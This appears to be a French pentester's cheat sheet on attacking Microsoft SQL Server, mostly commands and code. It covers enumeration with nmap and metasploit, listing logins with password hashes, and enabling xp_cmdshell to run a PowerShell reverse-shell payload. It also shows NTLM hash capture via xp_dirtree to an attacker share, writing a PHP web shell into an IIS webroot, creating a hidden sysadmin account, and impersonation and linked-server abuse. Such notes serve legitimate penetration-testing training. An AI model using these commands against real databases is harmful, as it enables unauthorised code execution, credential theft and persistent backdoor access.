 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### Sans accès initial

#### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

#### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Avec accès 

Si on dispose d'un accès via un des outils présentés plus bas sur cette page, on pourra utiliser les commandes suivantes pour découvrir l'environnement de base de données accessible.

#### Requêtes utiles

##### Informations générales
```sql
-- Get version
select @@version;
-- Get user
select user_name();
select SYSTEM_USER;
-- List admin users
select name,type_desc,is_disabled FROM master.sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1 ORDER BY name;
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
--
-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- List users that current user can impersonate 
--    if found : we need to impersonate each user available and enumerate again (see Exploitation below to see how to impersonate)
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';


-- List Linked servers
SELECT srvname, isremote FROM sysservers WHERE isremote = 0; -- 0 means linked server
EXEC sp_linkedservers
SELECT * FROM sys.servers;

```

Si un serveur lié (Linked Server) est découvert, on pourra tenter d'y accéder, vérifier si nous disposons de privilèges différents sur celui-ci. Voir la partie `Exploitation` plus bas sur cette page.

##### Exploration de l'instance de base de donnée
```sql
-- Get databases
select name from sys.databases;
SELECT name FROM master.dbo.sysdatabases;

-- Use database
USE master;

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## Outils utiles

#### sqlcmd (Windows)

Utilitaire installer avec SQLServer
Il faudra ajouter le mot clé `GO` à chaque requête afin qu'elle soit exécutée.
```shell
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

#### sqsh (Linux)

Equivalent de sqlcmd sous Windows, pour Linux.
Comme sous windows, on ajoutera le mot clé `GO` à chaque requête afin qu'elle soit exécutée.

```bash
# Authentificatino Interne (SQL Server)
sqsh -S $TARGET_IP -U $AD_USER -P $AD_PASSWORD

# Authentification locale ou domaine
sqsh -S $TARGET_IP -U .\\$AD_USER -P $AD_PASSWORD 
```

#### Mssqlclient.py (impacket)

**Attention** : ce client n'accepte pas les requêtes sur plusieurs lignes.

```bash
# Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

# Local workstation authentication 
mssqlclient.py Administrator@10.129.201.248 -windows-auth

# Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth WIN-02/mssqlsvc:princess1@$TARGET_IP      
```

## Commandes utiles

### Exploitation

#### Exécution de commandes (xp_cmdshell)

```sql
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- Allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE

--  Execution de commande (after enabling it)
xp_cmdshell 'whoami';
xp_cmdshell 'powershell -e <hoaxshell payload>';
```

#### Capture de Hash

```sql
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

```sql
-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### Ecriture dans un fichier
```sql
------------------------------------------------------------------------
-- Creation de fichier via OLE Automation Procedures

-- Activation
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

-- Création de fichier
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

#### Lecture d'un fichier

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### User Impersonate

Si l'énumération présentée plus haut nous liste des utilisateurs que l'on peut "impersonate" (usurper l'identité), on peut alors utiliser les commandes suivantes :

```sql
-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```


There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.